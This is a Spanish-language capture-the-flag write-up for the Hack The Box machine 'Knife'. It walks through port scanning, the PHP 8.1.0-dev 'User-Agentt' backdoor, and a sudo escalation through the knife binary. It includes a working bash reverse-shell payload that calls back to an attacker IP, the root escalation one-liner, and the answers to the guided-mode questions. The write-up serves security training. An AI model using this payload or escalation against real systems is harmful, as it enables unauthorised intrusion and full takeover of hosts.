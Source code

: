 ```yaml
---
title: Writeup knife - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - knife
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina knife en Hack The Box.
keywords:
  - writeup knife
  - hack the box knife
  - resolución máquina knife
  - knife hack the box
  - htb knife
---
```

-------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Knife)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=0cqa33FLho0)
- 🧠 **Explicación resumida**: 

---------

#linux #easy #nmap #ping #whatweb #php810-dev  #burpsuite #reverseshell #sudo-l #tratamientotty #gtfobinds

-------
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en Knife?
	2

2)¿Qué versión de PHP se está ejecutando en el servidor web?
	8.1.0-dev

3)¿Qué cabecera de petición HTTP se puede añadir para conseguir la ejecución de código en esta versión de PHP?
	User-Agentt

4)¿Con qué usuario se ejecuta el servidor web?
	james

*La pregunta anterior era la flag de user.txt*
6)¿Cuál es la ruta completa al binario en esta máquina que James puede ejecutar como root?
	/usr/bin/knife

------------------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.242
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.10.10.242 -oN target
```


![[Knife1.png]]
![[Knife2.png]]
*TTL:* Maquina linux
*Puertos:*
	`22`[[ssh]]
	`80`HTTP

------------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.242/
```

![[Knife3.png]]
Nos informa que la pagina tiene php 8.1.0

-----
# Intrusion Vulnerabilidad php 8.1-dev

Interceptamos la peticion con [[burpsuite]]

![[Knife4.png]]
Ahora vamos a añadir la linea que es vulnerable de User-Agentt: y le vamos a inyectar el one liner que casi siempre usamos para la [[Reverse shell]] 
```
User-Agentt: zerodiumsystem('bash -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"');
```

Ahora mientras estamos en escucha con [[nc -nlvp 443]], mandamos la peticion
![[Knife5.png]]

Y listo ya estamos adentro de la maquina
![[Knife6.png]]

--------
# [[Tratamiento de la TTY]]

-----
# Escalada de privilegios con [[Abuso de Sudo]]

Usamos el comando `sudo -l`

![[Knife7.png]]
Y nos indica que james puede usar el binario knife, siendo root sin otorgar contraseña

Articulo de [gtfobinds](https://gtfobins.github.io/gtfobins/knife/#sudo) donde nos indica como meter un payload desde sudo para elevar privilegios, asi que lo adaptamos a nuestra maquina
![[Knife8.png]]
```shell
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```
Y listo ya ganamos acceso como root y podemos visualizar las flags

![[Knife10.png]]

-------
# Creditos
[Exploit 49933 de searchsploit](https://www.exploit-db.com/exploits/49933) Que lo pudimos usar de referencia para entender la vulnerabilidad



